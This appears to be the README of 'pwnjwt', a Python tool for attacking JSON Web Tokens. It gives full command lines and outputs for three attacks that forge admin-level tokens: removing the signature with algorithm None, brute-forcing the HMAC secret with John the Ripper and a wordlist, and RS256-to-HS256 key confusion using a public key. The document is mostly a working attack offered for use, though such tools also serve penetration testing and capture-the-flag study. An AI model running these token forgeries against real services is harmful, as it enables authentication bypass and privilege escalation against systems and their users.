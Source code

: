 # pwnjwt
JWT pwn Python module

This small module allows you to create JWToken instances. This object will store informations about the token such as if it's signed and with witch algorithm.
But if you have JohnTheRipper installed on your path and (optionally) a wordlist you could try to break the secret key of the token. Then you'll be able to forge a new valid token, signed with the cracked key.

You can use it by 2 ways:
 - Standalone : `./pwnjwt.py -b -w /usr/share/wordlists/rockyou.txt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE`
 - As a module in Python:
 ```python
 from pwnjwt import JWToken

 token = JWToken('eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE')

 # OR if you know the key
 token = JWToken('eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE', key='Sn1f')

 token.encoded == 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE'

 token.header == {'typ':'JWT', 'alg':'HS256'}
 token.signed == True
 token.algo   == 'HS256'
 token.key    == '' # OR 'Sn1f'
 token.payload == {'role': 'guest'}

 # Will bruteforce and update the token.key
 token.bruteforce(wordlist='../rockyou.txt')

 # If you got the key (token.key):
 new_token = token.forge({'role':'admin'})
 ```

# Standalone Examples

 The 3 main ways to hack JWT are:
  1. Remove signature and set algorithm to None
  2. Bruteforce the key (as it can be done offline)
  3. If encoded in RS256 (asymetric Private/Public keys) -> switch to HS256 with
    public key as key.

#### Case 1 - Unsign

```bash
./pwnjwt.py -f '{"username":"admin"}' -a None \
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.\
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.\
cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

Output:
```
Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       :


[+] New Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
```

#### Case 2 - Crack the key

```bash
./pwnjwt.py -b -w /usr/share/wordlists/rockyou.txt \
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.\
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.\
cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

Output :
```
[*] Starting Bruteforce with John using /usr/share/wordlists/rockyou.txt.
[+] Key found: Sn1f

Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       : Sn1f
```

Or if key wasn't found :
```
[*] Starting Bruteforce with John using /usr/share/wordlists/rockyou.txt.
[-] Key not found.

Token     : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Header    : {'alg': 'HS256', 'typ': 'JWT'} (eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9)
Payload   : {'sub': '1234567890', 'name': 'John Doe', 'admin': True} (eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9)
Algorithm : HS256
Key       :
```

#### Case 3 - Switching RSA256 - HMAC-SHA256

```bash
./pwnjwt.py -f '{"username":"administrator_root_superGOD"}' -a HS256 \
-k public.pem \
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.\
eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9.\
QxrGZtmKXEzoLLdnUm1AZDyNZttM4GFeJcC3E66uQWF4vp2hAbHc2j1uzesS7Mha9i2EEtb\
8PnPw6UHSiIp965kuHhKM6O3m-2S36lKiTE-qGGW66Run3g4y1BuhUGZuxsnn2B3YlznHcF\
P1WR3DbybQDf7N7OmtLLZMWsRD0A-fzj_RiPjv_EzFVtCBPJMApvF7JxXosd4nlpVa8pxYR\
hPU0fjLGGYB2zxokarZLWCpcdGde_5Rs76gnerEvcptXp5zTxWF0hF6JNqrAng7JdtS_uo5\
CYjQ0DSHXATdqNd-mZdGHeYUwQe1JgTJ7oLal4GNhspwaQCIa5R9KFx8rw
```

Output:
```
Token     : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9.QxrGZtmKXEzoLLdnUm1AZDyNZttM4GFeJcC3E66uQWF4vp2hAbHc2j1uzesS7Mha9i2EEtb8PnPw6UHSiIp965kuHhKM6O3m-2S36lKiTE-qGGW66Run3g4y1BuhUGZuxsnn2B3YlznHcFP1WR3DbybQDf7N7OmtLLZMWsRD0A-fzj_RiPjv_EzFVtCBPJMApvF7JxXosd4nlpVa8pxYRhPU0fjLGGYB2zxokarZLWCpcdGde_5Rs76gnerEvcptXp5zTxWF0hF6JNqrAng7JdtS_uo5CYjQ0DSHXATdqNd-mZdGHeYUwQe1JgTJ7oLal4GNhspwaQCIa5R9KFx8rw
Header    : {'typ': 'JWT', 'alg': 'RS256'} (eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9)
Payload   : {'username': 'GodMaster'} (eyJ1c2VybmFtZSI6IkdvZE1hc3RlciJ9)
Algorithm : RS256
Key       : -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KthdfLESvFKn9LqBfvT
RlakP02YGC7QJ4ywfFiOcWjrXvKKjUkPd3J+A/7/MjgbgGZaroJgDZn5WsDg40dx
a3DiVUQU7VGDBh1eKbslfabopCHtQWZ6zLyR38OMqlZjanzv2eEJCMmMxTzykTXm
GAZNIdHC8FuuXe6cdVGyfjRNqAfOUUzeFo7GCTWORXMf1/l1ouzJBO5SVj1YluMZ
Rwys1ysHZZDn/NAYY/vaubSq7jYEYbwRdfD3tJpnISHHUKH6YCbYjDApisaSiFV/
Q/JbE4OJS5NErZ5z6froyBbi+F1s85hfwB5UJPDvKlVVJpO30WPAl3pl/ddeGjtl
eQIDAQAB
-----END PUBLIC KEY-----



[+] New Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
```

And to check the new token:

```bash
./pwnjwt.py -k public.pem eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
```
```
Token     : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9.ccQYH4Ch9PSeTwHmRJnRzgA9RUki20iMNOhNvLEOajk
Header    : {'typ': 'JWT', 'alg': 'HS256'} (eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9)
Payload   : {'username': 'administrator_root_superGOD'} (eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3Jfcm9vdF9zdXBlckdPRCJ9)
Algorithm : HS256
Key       : -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KthdfLESvFKn9LqBfvT
RlakP02YGC7QJ4ywfFiOcWjrXvKKjUkPd3J+A/7/MjgbgGZaroJgDZn5WsDg40dx
a3DiVUQU7VGDBh1eKbslfabopCHtQWZ6zLyR38OMqlZjanzv2eEJCMmMxTzykTXm
GAZNIdHC8FuuXe6cdVGyfjRNqAfOUUzeFo7GCTWORXMf1/l1ouzJBO5SVj1YluMZ
Rwys1ysHZZDn/NAYY/vaubSq7jYEYbwRdfD3tJpnISHHUKH6YCbYjDApisaSiFV/
Q/JbE4OJS5NErZ5z6froyBbi+F1s85hfwB5UJPDvKlVVJpO30WPAl3pl/ddeGjtl
eQIDAQAB
-----END PUBLIC KEY-----


```
